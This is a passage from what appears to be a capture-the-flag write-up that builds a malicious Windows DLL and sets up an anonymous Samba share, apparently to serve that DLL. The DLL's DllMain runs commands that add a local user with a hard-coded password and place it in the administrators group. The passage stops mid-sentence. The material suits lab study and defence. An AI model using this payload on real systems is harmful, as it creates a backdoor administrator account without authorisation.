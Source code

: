     BOOL APIENTRY DllMain( HMODULE hModule,
                           DWORD  ul_reason_for_call,
                           LPVOID lpReserved
                         )
    {
        switch (ul_reason_for_call)
        {
        case DLL_PROCESS_ATTACH:
            system("cmd.exe /c net user 0xdf 0xdf0xdf /add");
            system("cmd.exe /c net localgroup administrators 0xdf /add");
        case DLL_THREAD_ATTACH:
        case DLL_THREAD_DETACH:
        case DLL_PROCESS_DETACH:
            break;
        }
        return TRUE;
    }
    

The `DllMain` function will be called for various reasons, one of which is
when a process loads the DLL. In that case, the `ul_reason_for_call` will be
`DLL_PROCESS_ATTACH`. So the DLL will be loaded, will execute these two system
commands, and then be done. I’ll compile that and copy it back to my Parrot
VM.

#### Samba

Cube0x0 has an example Samba config to allow for anonymous access on his
GitHub page. It’s important that the user on the last line exists on your
host. I updated mine to match a user I had configured with access to nothing.

    
    
    [global]
        map to guest = Bad User
        server role = standalone server
        usershare allow guests = yes
        idmap config * : backend = tdb
        smb ports = 445
    
    [share]
        comment = Samba
        path = /srv/smb/
        guest ok = yes
        read only = no
        browsable = yes
        force user = nobody
    

I’ll restart Samba to take the updated config:

    
    
    oxdf@parrot$ sudo service smbd restart 
    

It’s also important that that user can read from the SMB share, so I’ll set
that directory to be owned by that user:
